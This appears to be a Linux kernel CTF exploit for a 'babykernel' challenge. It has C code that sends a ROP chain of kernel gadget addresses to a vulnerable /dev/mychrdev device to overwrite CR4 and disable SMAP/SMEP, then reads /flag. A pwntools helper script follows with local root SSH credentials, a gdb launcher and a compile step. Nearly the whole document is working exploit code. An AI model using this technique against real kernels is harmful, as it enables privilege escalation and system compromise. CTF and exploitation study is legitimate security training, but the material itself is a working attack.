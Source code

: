 ```c
void shell()
{
        char buffer[100];
        int in = open("/flag", O_RDONLY,S_IRUSR); 
        int flag = read(in, buffer, 1024);
        write(1, buffer, flag);
        exit(0);
}

unsigned long long int calc(unsigned long long int addr) {
    return addr - 0xffffffff81000000 + base_addr;
}

int main() {
	save_stat();
	fd = open("/dev/mychrdev", 2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
    	
	void* buf[0x1000];
	int i = 0x58 / 8;
 	//修改 cr4 寄存器的值为 0x6f0，以关闭 SMAP、SMEP
	buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
	buf[i ++] = 0x6f0;
	buf[i ++] = 0x10;
	buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
	buf[i ++] = 0x6f0;
	buf[i ++] = 0;
	buf[i ++] = 0xffffffff81003cf8;  // mov cr4,rax; pop rbp; ret;
	buf[i ++] = 0;
	buf[i ++] = &restore_stat;
	write(fd, buf, 0x100);
}

```

```python
from pwn import *
import time

# ------------- ssh远程连接配置 -------------
HOST = "127.0.0.1"
PORT =  22
USER = "root"
PW = "123456"

# ------------- debug函数 -------------
# 必须在 qemu 启动参数中加入 如下参数, 才能debug
# -gdb tcp::2234 -S \ 
def debug(query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg ./.kernel_exp -ex "set telescope-skip-repeating-val off" -ex "target remote :2234" -ex "{query}" ' '''])

# ------------- end -------------


os.chdir("./debug/babykernel")

def compile():
	print("compiling...")
	os.system("musl-gcc -g -w -static -o3 kernel_exp1.c -o .kernel_exp")

```